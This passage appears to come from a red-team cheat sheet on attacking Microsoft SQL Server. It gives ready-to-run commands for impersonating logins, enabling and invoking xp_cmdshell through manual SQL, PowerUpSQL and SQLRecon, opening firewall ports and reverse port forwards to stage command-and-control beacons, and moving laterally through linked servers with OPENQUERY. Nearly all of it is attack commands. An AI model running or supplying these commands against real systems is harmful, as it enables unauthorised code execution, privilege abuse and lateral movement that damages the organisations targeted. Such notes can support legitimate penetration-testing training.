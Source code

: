 Impersonate
`EXECUTE AS login = '[user]'; [query]`

check access: `execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:iwhoami /i:[user]`
query: `execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:iquery /i:[user] /c:[query]`
#### MS SQL Command Execution

Manual
`SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';`
`sp_configure 'Show Advanced Options', 1; RECONFIGURE;`
`sp_configure 'xp_cmdshell', 1; RECONFIGURE;`
`EXEC xp_cmdshell '[command]';`

PowerUpSQL
`powershell Invoke-SQLOSCmd -Instance "[host],[port]" -Command "[command]" -RawResults`

SQLRecon
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:enablexp`
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:xpcmd /c:[command]`
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:disablexp`

as another user (impersonate),
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:ienablexp /i:[user]`
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:ixpcmd /i:[user] /c:[command]`
`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:[host],[port] /m:idisablexp /i:[user]`
#### Command Execution → Beacon
`powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080`
`rportfwd 8080 127.0.0.1 80`

`portscan [sql server] 445`
host either smb_x64.ps1 (port 445 open) or tcp_x64.ps1 (port 445 closed)
[[#PowerShell Payload (base64)]]

`connect [sql server] 4444`
`link [sql server] [pipe]`
#### MS SQL Lateral Movement

Manual
`SELECT srvname, srvproduct, rpcout FROM master..sysservers;`
`SELECT * FROM OPENQUERY("[target (srvname)]", '[query]');`

**Note:** when using **xp_cmdshell** with **OpenQuery**, prepend a dummy query before it or else it won’t work: `SELECT * FROM OPENQUERY("[target]", 'select @@servername; exec xp_cmdshell ''powershell [...]''')`
